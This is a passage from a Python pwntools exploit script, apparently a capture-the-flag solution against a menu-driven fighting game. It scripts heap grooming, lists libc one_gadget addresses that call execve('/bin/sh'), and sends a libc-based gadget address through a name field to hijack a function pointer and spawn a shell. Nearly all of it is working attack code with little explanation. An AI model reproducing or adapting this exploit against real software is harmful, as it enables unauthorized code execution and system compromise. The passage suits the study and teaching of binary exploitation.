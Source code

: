 ```python
    r.sendlineafter('>', '3')
    r.sendlineafter('Slot:', '1')
    r.sendlineafter('>', '2') # fight
    r.sendlineafter('>', '1')
    if play_game('rrrrrrprrrrrrp'*30, x=True, verbose=True):
        r.sendline('')
        r.sendlineafter('Which notch on your belt will this victory go?', '0')
        r.sendlineafter('What Name Shall you Remember this fighter by?', 'asdfsadfd')
    else:
        r.sendlineafter('>', '7')
        r.sendlineafter('>', '3')
        r.sendlineafter('Slot:', '0')
        break

## heap fengsui ##

r.sendlineafter('>', '7')
r.sendlineafter('>', '1')
r.sendlineafter('Enter name: ', 'asdf')
r.sendlineafter('Enter anger: ', '3434')


'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

'''
0x56507a30d76b:      call   QWORD PTR [rdi+0x1a]
0x1f76b
'''

while True:
    print('gogo', i)
    r.sendlineafter('>', '7')
    r.sendlineafter('>', '3')
    r.sendlineafter('Slot:', '0')
    r.sendlineafter('>', '2') # fight
    r.sendlineafter('>', '1')
    if play_game('rrrrrrprrrrrrp'*30, x=True, verbose=True):
        r.sendline('')
        r.sendlineafter('Which notch on your belt will this victory go?', str(85+2)) # 0x7f39f0bbefa0 <endwin+32>    call   qword ptr [rax + 0x440] <0xa464544434241>
        # r.sendlineafter('Which notch on your belt will this victory go?', str(357914029)) # 0x7f39f0bbefa0 <endwin+32>    call   qword ptr [rax + 0x440] <0xa464544434241>
        r.sendafter('What Name Shall you Remember this fighter by?', p64(libc_base + 0x4527a)) # rsp-0x30 = null
        # r.sendafter('What Name Shall you Remember this fighter by?', p64(0x41424344)) # rsp-0x30 = null
        break
```